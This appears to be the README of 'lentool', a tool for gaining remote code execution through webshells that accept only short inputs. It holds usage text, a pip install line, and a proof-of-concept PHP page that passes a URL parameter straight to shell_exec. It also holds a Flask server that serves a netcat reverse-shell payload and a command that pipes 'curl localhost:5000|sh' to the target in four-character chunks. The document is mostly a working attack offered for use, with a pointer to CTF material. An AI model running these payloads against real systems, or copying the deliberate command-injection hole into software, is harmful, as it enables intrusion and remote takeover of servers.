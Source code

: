# Description
Tool to RCE in limited input length webshells.  
It pipes the payload to sh, you can customize it with a few changes in the source code (python is already done, just uncomment it), also you could modify it to execute commands directly.

# Usage
```
usage: lentool.py [-h] -c COMMAND -t TARGET [-s MAX_SIZE] [-d DELAY]

optional arguments:
  -h, --help            show this help message and exit
  -c COMMAND, --command COMMAND
                        Payload location
  -t TARGET, --target TARGET
                        Url target (with param ex: http://target?cmd
  -s MAX_SIZE, --max-size MAX_SIZE
                        Maximum amount of characters per request
  -d DELAY, --delay DELAY
                        Time to wait between requests in tenths of a second
```

# Install

```
pip install git+https://github.com/esTse/lentool.git
```

# POC
## Vulnerable application:
```php
<?php
 
$sandbox = '/home/estse/sandbox/';
@mkdir($sandbox);
@chdir($sandbox);

if (!isset($_GET['start'])){
	show_source(__FILE__);
	exit;
}

// This will return output only for id and ps.
if (strlen($_GET['start']) < 5){
	echo shell_exec($_GET['start']);
} else {
	echo "Please enter a valid command";
}

?>
 ```
 ## Flask server to host the payload:
 ```python
from flask import Flask, Response
 
app = Flask(__name__)
 
@app.route('/')
def i():
    return Response("nc -e /bin/sh 127.0.0.1 1234", headers={'Content-Type': 'text/plain'}, status=200)
 
if __name__ == '__main__':
    app.run(host='0.0.0.0',port=5000)
```
## Run:
```
python3 lentool.py -c 'curl localhost:5000|sh' -t http://127.0.0.1/index.php?start -s 4
```
 

https://user-images.githubusercontent.com/40002393/154508216-648b8403-f78a-4298-b68c-85944a2118e1.mp4

# References
https://err0rzz.github.io/2017/11/13/ctf%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E4%B8%8E%E7%BB%95%E8%BF%87/
